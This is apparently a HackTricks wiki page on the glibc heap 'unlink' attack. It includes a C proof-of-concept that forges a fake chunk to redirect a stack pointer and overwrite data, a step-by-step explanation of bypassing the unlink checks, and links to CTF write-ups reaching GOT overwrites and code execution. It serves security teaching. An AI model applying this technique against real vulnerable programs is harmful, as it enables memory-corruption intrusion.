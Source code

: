 # Unlink Attack

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Basic Information

When this attack was discovered it mostly allowed a WWW (Write What Where), however, some **checks were added** making the new version of the attack more interesting more more complex and **useless**.

### Code Example:

<details>

<summary>Code</summary>

```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Altered from https://github.com/DhavalKapil/heap-exploitation/tree/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c to make it work

struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[10];               // padding
};

int main() {
  unsigned long long *chunk1, *chunk2;
  struct chunk_structure *fake_chunk, *chunk2_hdr;
  char data[20];

  // First grab two chunks (non fast)
  chunk1 = malloc(0x8000);
  chunk2 = malloc(0x8000);
  printf("Stack pointer to chunk1: %p\n", &chunk1);
  printf("Chunk1: %p\n", chunk1);
  printf("Chunk2: %p\n", chunk2);

  // Assuming attacker has control over chunk1's contents
  // Overflow the heap, override chunk2's header

  // First forge a fake chunk starting at chunk1
  // Need to setup fd and bk pointers to pass the unlink security check
  fake_chunk = (struct chunk_structure *)chunk1;
  fake_chunk->size = 0x8000;
  fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
  fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

  // Next modify the header of chunk2 to pass all security checks
  chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
  chunk2_hdr->prev_size = 0x8000;  // chunk1's data region size
  chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

  // Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
  // This results in chunk1 pointer pointing to chunk1 - 3
  // i.e. chunk1[3] now contains chunk1 itself.
  // We then make chunk1 point to some victim's data
  free(chunk2);
  printf("Chunk1: %p\n", chunk1);
  printf("Chunk1[3]: %x\n", chunk1[3]);

  chunk1[3] = (unsigned long long)data;

  strcpy(data, "Victim's data");

  // Overwrite victim's data using chunk1
  chunk1[0] = 0x002164656b636168LL;

  printf("%s\n", data);

  return 0;
}

```

</details>

* Attack doesn't work if tcaches are used (after 2.26)

### Goal

This attack allows to **change a pointer to a chunk to point 3 addresses before of itself**. If this new location (surroundings of where the pointer was located) has interesting stuff, like other controllable allocations / stack..., it's possible to read/overwrite them to cause a bigger harm.

* If this pointer was located in the stack, because it's now pointing 3 address before itself and the user potentially can read it and modify it, it will be possible to leak sensitive info from the stack or even modify the return address (maybe) without touching the canary
* In order CTF examples, this pointer is located in an array of pointers to other allocations, therefore, making it point 3 address before and being able to read and write it, it's possible to make the other pointers point to other addresses.\
  As potentially the user can read/write also the other allocations, he can leak information or overwrite new address in arbitrary locations (like in the GOT).

### Requirements

* Some control in a memory (e.g. stack) to create a couple of chunks giving values to some of the attributes.
* Stack leak in order to set the pointers of the fake chunk.

### Attack

* There are a couple of chunks (chunk1 and chunk2)
* The attacker controls the content of chunk1 and the headers of chunk2.
* In chunk1 the attacker creates the structure of a fake chunk:
  * To bypass protections he makes sure that the field `size` is correct to avoid the error: `corrupted size vs. prev_size while consolidating`
  * and fields `fd` and `bk` of the fake chunk are pointing to where chunk1 pointer is stored in the with offsets of -3 and -2 respectively so `fake_chunk->fd->bk` and `fake_chunk->bk->fd` points to position in memory (stack) where the real chunk1 address is located:

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

* The headers of the chunk2 are modified to indicate that the previous chunk is not used and that the size is the size of the fake chunk contained.
* When the second chunk is freed then this fake chunk is unlinked happening:
  * `fake_chunk->fd->bk` = `fake_chunk->bk`
  * `fake_chunk->bk->fd` = `fake_chunk->fd`
* Previously it was made that `fake_chunk->fd->bk` and `fake_chunk->fd->bk` point to the same place (the location in the stack where `chunk1` was stored, so it was a valid linked list). As **both are pointing to the same location** only the last one (`fake_chunk->bk->fd = fake_chunk->fd`) will take **effect**.
* This will **overwrite the pointer to chunk1 in the stack to the address (or bytes) stored 3 addresses before in the stack**.
  * Therefore, if an attacker could control the content of the chunk1 again, he will be able to **write inside the stack** being able to potentially overwrite the return address skipping the canary and modify the values and points of local variables. Even modifying again the address of chunk1 stored in the stack to a different location where if the attacker could control again the content of chunk1 he will be able to write anywhere.
  * Note that this was possible because the **addresses are stored in the stack**. The risk and exploitation might depend on **where are the addresses to the fake chunk being stored**.

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

## References

* [https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit)
* Although it would be weird to find an unlink attack even in a CTF here you have some writeups where this attack was used:
  * CTF example: [https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html](https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html)
    * In this example, instead of the stack there is an array of malloc'ed addresses. The unlink attack is performed to be able to allocate a chunk here, therefore being able to control the pointers of the array of malloc'ed addresses. Then, there is another functionality that allows to modify the content of chunks in these addresses, which allows to point addresses to the GOT, modify function addresses to egt leaks and RCE.
  * Another CTF example: [https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html](https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html)
    * Just like in the previous example, there is an array of addresses of allocations. It's possible to perform an unlink attack to make the address to the first allocation point a few possitions before starting the array and the overwrite this allocation in the new position. Therefore, it's possible to overwrite pointers of other allocations to point to GOT of atoi, print it to get a libc leak, and then overwrite atoi GOT with the address to a one gadget.
  * CTF example with custom malloc and free functions that abuse a vuln very similar to the unlink attack: [https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html)
    * There is an overflow that allows to control the FD and BK pointers of custom malloc that will be (custom) freed. Moreover, the heap has the exec bit, so it's possible to leak a heap address and point a function from the GOT to a heap chunk with a shellcode to execute.

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

